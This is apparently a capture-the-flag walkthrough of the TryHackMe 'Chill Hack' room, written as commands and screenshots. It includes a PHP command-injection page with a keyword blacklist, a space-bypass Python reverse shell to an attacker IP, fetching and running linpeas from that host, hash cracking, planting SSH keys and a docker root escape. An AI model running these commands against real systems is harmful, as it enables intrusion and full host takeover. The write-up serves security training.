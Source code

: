 ```yaml
---
description: https://tryhackme.com/room/chillhack
---
```


# Chill Hack

![](../../.gitbook/assets/10.10.128.132.png)

## Task 1 Investigate!

#### User Flag

```bash
rustscan -a 10.10.128.132 -- -sV -sC
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 08-17-06.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-20 08-17-55.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-20 08-18-16.png>)

```bash
lftp -u Anonymous, 10.10.128.132
ftp > ls -la
ftp > cat note.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 08-22-05.png>)

```bash
gobuster dir -u http://10.10.128.132/ \
             -w /usr/share/dirb/wordlists/common.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 08-26-43.png>)

{% tabs %}
{% tab title="http://10.10.128.132/secret" %}
![](<../../.gitbook/assets/Screenshot from 2022-03-20 08-28-08.png>)
{% endtab %}

{% tab title="Source" %}
```markup
<html>
<body>

<form method="POST">
        <input id="comm" type="text" name="command" placeholder="Command">
        <button>Execute</button>
</form>
<?php
        if(isset($_POST['command']))
        {
                $cmd = $_POST['command'];
                $store = explode(" ",$cmd);
                $blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
                for($i=0; $i<count($store); $i++)
                {
                        for($j=0; $j<count($blacklist); $j++)
                        {
                                if($store[$i] == $blacklist[$j])
				{?>
					<h1 style="color:red;">Are you a hacker?</h1>
					<style>
						body
						{
							background-image: url('images/FailingMiserableEwe-size_restricted.gif');
							background-position: center center;
  							background-repeat: no-repeat;
  							background-attachment: fixed;
  							background-size: cover;					
	}	
					</style>
<?php					 return;
				}
                        }
                }
		?><h2 style="color:blue;"><?php echo shell_exec($cmd);?></h2>
			<style>
                             body
                             {
                                   background-image: url('images/blue_boy_typing_nothought.gif');  
				   background-position: center center;
  				   background-repeat: no-repeat;
  				   background-attachment: fixed;
  				   background-size: cover;
}
                          </style>
	<?php }
?>
</body>
</html
```
{% endtab %}
{% endtabs %}

```bash
python3${IFS}-c 'import os,pty,socket;s=socket.socket();s.connect(("10.6.9.176",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

```bash
nc -nvlp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 09-05-02.png>)

```bash
ls -l /home
ls -la /home/apaar
cat /home/apaar/local.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 09-06-10.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-20 09-07-58.png>)

```bash
sudo -l
cat /home/apaar/.helpline.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 09-13-50.png>)

```bash
sudo -u apaar /home/apaar/.helpline.sh
# cat /home/apaar/local.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 09-17-41.png>)

{% hint style="success" %}
`{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}`
{% endhint %}

#### Root Flag

```bash
sudo -u apaar /home/apaar/.helpline.sh
# /bin/bash
# python3 -c 'import pty; pty.spawn("/bin/bash")'
# cd
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-46-41.png>)

```bash
wget http://10.6.9.176/linpeas.sh -P /tmp
bash /tmp/linpeas.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-01-08.png>)

```bash
cat /var/www/files/index.php
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 09-43-46.png>)

```bash
mysql -u root -p
sql > show databases;
sql > use webportal;
sql > show tables;
sql > SELECT * FROM users;
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 09-43-29.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-20 09-43-15.png>)

```bash
echo -n 'Aurick:7e53614ced3640d5de23f111806cc4fd\ncullapaar:686216240e5af30df0501e53c789a649' > hash.txt
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 09-48-34.png>)

```bash
ssh-keygen
cat .ssh/id_rsa.pub >> .ssh/authorized_keys
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-04-10.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-05-06 (1).png>)

```bash
vim id_rsa
chmod 400 id_rsa
ssh -i id_rsa -L 9001:localhost:9001 apaar@10.10.128.132
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-08-52.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-09-28.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-09-51.png>)

```bash
wget http://localhost:9001/images/hacker-with-laptop_23-2147985341.jpg
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-12-27.png>)

```bash
zip2john backup.zip > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
unzip backup.zip
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-13-06.png>)

```bash
cat source_code.php
echo -n 'IWQwbnRLbjB3bVlwQHNzdzByZA==' | base64 -d
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 11-11-46.png>)

```bash
su - anurodh
wget http://10.6.9.176/linpeas.sh
bash linpeas.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-21-55.png>)

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
cat /root/proof.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-20 10-23-56.png>)

{% hint style="success" %}
`{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}`
{% endhint %}

## Xmind

{% file src="../../.gitbook/assets/10.10.128.132.xmind" %}

## Reference

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space" %}

{% embed url="https://johnliu55.tw/ssh-tunnel.html" %}

{% embed url="https://gtfobins.github.io/gtfobins/docker" %}
